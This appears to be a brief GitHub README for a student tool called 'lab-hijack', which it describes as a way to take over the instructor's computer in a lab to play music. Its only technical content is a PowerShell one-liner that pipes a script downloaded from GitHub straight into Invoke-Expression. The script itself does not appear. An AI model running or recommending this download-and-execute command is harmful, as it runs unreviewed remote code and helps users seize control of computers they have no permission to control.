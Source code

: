 # lab-hijack

Pretty much for taking over the instructor pc so we can listen to music in the lab.

(It's not pretty much... It's the only reason we use it :) )

¯\\_(ツ)_/¯

To invoke directly from powershell:
``` powershell
IEX $(IWR raw.githubusercontent.com/kyle-schleich/lab-hijack/master/remote.ps1)
```
